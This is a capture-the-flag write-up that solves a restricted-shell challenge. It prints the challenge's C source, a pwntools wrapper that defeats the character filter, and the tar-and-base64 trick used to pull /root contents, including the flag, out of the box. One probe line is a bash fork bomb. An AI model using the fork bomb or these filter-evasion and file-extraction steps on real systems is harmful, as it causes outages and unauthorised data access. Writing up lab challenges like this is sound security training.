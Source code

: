 # IRS Internal CTF
## The Hacker Experience [misc]

_You've pwned the [server](https://drive.google.com/uc?id=1DslTyGzaoGBEmQv7s3VlstLtwSS4ulSw); now all you need is `flag.txt`_

`irscybersec.tk 13144`

_NOTE: all connections share the same box; if you care about points, you might want take steps to prevent inadvertent solution leaks._

### A/N: You do _misc_?

I don't do `misc` a lot, and T-H-E didn't start out as a restricted-shell challenge. Eventually though, the concept grew on me, and I'd figured that most people would appreciate something that wasn't `pwn` from me.

You can still kind-of see the remnants of what the challenge would've been from the calls to `getenv()`, which --- strictly speaking --- aren't truly necessary for the second flag. But _that's spoilers for flag 2_, so you won't be getting anything more about that here.

Let's move on to the challenge proper.

### Probing

So. We're given a netcat connection that almost looks like a pwntools shell:
```sh
$ nc irscybersec.tk 13144
Congratulations; you've pwned cybersec...
Now, put in your malicious commands:
$ 
```
Inexplicably, none of the commands we put actually give back a response:
```sh
$ ls
$ bash
$ help
$ cat flag.txt
$ cat flag.txt 0>&1 #a previous CTF did this; not that unoriginal
$ touch leonard's dick
$ :(){ :&:;};:
$ >:(
$ ^C
```

If we're going to figure out what's happening, we'll have to look at the binary.

### Going through IDA

IDA works, and I'm lazy. Unlike what the heading suggests, I'm going to dump the entire C code for the binary here for tractability:



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#define CMDLEN  64
#define REDCLR  "\033[31;1;4m"
#define NOCOLOR "\033[0m"

void intro(){
    puts("Congratulations; you've pwned cybersec...");
    puts("Now, put in your malicious commands:");
}

_Bool check_blacklist(char *s) {
    const char *blacklist[] = {"FLAG", "env", "set"};
    for (int i = 0; i < sizeof(blacklist)/sizeof(*blacklist); i++)
        if (strstr(s, blacklist[i]))
            return puts("Woah, \033[0;1;4mreal" NOCOLOR " hacking ain't allowed here.");
}

int run_hacker_command(char *s) {
    for (int i = 0; i < CMDLEN; i++) {
        s[i]+=128;
        if (!isalpha(s[i]) && s[i] != '$' && s[i] != '/') s[i] = ' ';
    }
    s[CMDLEN-1] = '\0';
    strcat(s, " < /dev/null");
    if (check_blacklist(s) == 0)
        return system(s);
}

int main(){
    char *flag = getenv("FLAG");
    intro();
    unsigned char s[CMDLEN];
    while (1) {
        printf(REDCLR "$" NOCOLOR " ");
        memset(s, 0, CMDLEN);
        fgets(s, CMDLEN, stdin);
        run_hacker_command(s);
    }
}
```
There are 1+three things that you'll want to pull from this code.
0. `fgets()` is set to take in a safe amount of input.
    Yes, you can _technically_ BOF with `" < /dev/null"`, but that gets you nowhere so stop trying.
1. The input string undergoes this manipulation:
    ```c
    for (int i = 0; i < CMDLEN; i++) {
        s[i]+=128;
        if (!isalpha(s[i]) && s[i] != '$' && s[i] != '/') s[i] = ' ';
    }
    ```
    We'll have to deal with that to submit any working command.
2. `strcat(s, " < /dev/null");`. This effectively means that **any command needing stdin is banned.**
3. `const char *blacklist[] = {"FLAG", "env", "set"};` means that the command sent can't contain any of those substrings. This is notable for flag 2 only, so we'll ignore it for now.

We can get a basic interactive shell working if we just pipe a pwn-wrapper to add 128 to every character:
```python
from pwn import *
r = remote('irscybersec.tk', 13144)
while 1:
    print r.recvuntil('$\033[0m '),
    s = raw_input()
    r.sendline(''.join(chr(ord(c)+128) for c in s))
```
```sh
[+] Opening connection to irscybersec.tk on port 13144: Done
Congratulations; you've pwned cybersec...
Now, put in your malicious commands:
$ ls
 a.out  flag.txt  solution.py  test.c
$ cat flag.txt
$ echo what
what
$ file flag.txt
flag: cannot open `flag' (No such file or directory)
txt:  cannot open `txt' (No such file or directory)
```
You'll notice an important restriction from point (1):

```c
if (!isalpha(s[i]) && s[i] != '$' && s[i] != '/') s[i] = ' ';
```

Any character non-alphabetical (and not "$" or "/") is immediately converted to an empty space. This includes the `.` character, which naturally means you can't `cat` out `flag.txt`.

Most commands are useless. Without the `-` character, you're limited to the default behaviour of a program; no `find -exec`.

Interactive programs are banned; pipes (`|`) are banned, subprocesses (`$(cmd)`) are dead, assignment (`=`) is killed, and although you could _hypothetically_ execute an arbitrary script (`/path/to/script.sh`), you'd need to actually write to the script from somewhere, which is mostly impossible.

So. Almost everything is doomed, what then?

### Crashing POSIX

_Without the `-` character, you're limited to the default behaviour of a program;_

Say hello to special-needs resident, `tar`:
```man
Option styles
       Options to GNU tar can be given in three different styles. In traditional style, the first argument is a cluster of option letters and all subsequent arguments supply arguments to those options that require them. The arguments are read in the same order as the option letters. Any command line words that remain after all options has been processed are treated as non-optional arguments: file or archive member names.
       For example, the c option requires creating the archive, the v option requests the verbose operation, and the f option takes an argument that sets the name of the archive to operate upon. The following command, written in the traditional style, instructs tar to store all files from the directory /etc into the archive file etc.tar verbosely listing the files being archived:
       tar cfv a.tar /etc
```
With options available, we've got a free pick on what we want to do with the filesystem.

The default behaviour of `tar` is to traverse directories recursively. We don't need to archive `flag.txt` in particular; we can just swallow up the whole directory:

```sh
$ tar cf tarfilename /root
$ ls
 a.out  flag.txt  solution.py  tarfilename  test.c
$ tar tf tarfilename
root/
root/.profile
root/.bashrc
root/test.c
root/solution.py
root/a.out
root/flag.txt
root/.dockerignore
root/.wget-hsts 
```
`flag.txt` is embedded in there somewhere. We can _try_ to pipe it out with the O option, but you'll quickly run into output errors because of `/root/a.out`:
```sh
$ tar Oxf tarfilename
 # ~/.profile: executed by Borune-compatible login shells.
...
\x7fELF???\x00\x00\x00\x00\x00\x00\x00...
Error in sys.exitfunc
```
We can convert the tar to a printable form with `base64`:
```sh
$ base64 tarfilename
cm9vdC8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAwMDA3MDAAMDAwMDAw
...
```
And then copy-paste it onto your home terminal, extracting the flag there:
```sh
you@home-terminal:~$ base64 -di copied_base64.txt > tarfilename
you@home-terminal:~$ tar Oxf tarfilename root/flag.txt
IRS{y0u_d1d_1t.goodjobiguess!!}
```
And you're done. On to flag 2.

## Flag

`IRS{y0u_d1d_1t.goodjobiguess!!}`

### Reflections

This challenge was _fun_, in part because I didn't know if there was going to be a solution when I finished making it. I figured it out _a_ solution, after a few hours, and there's doubtlessly a dozen different ways you could go about solving T.H.E.

I don't think there's an easier method than this, but if you've got one, I'd be glad to hear it.
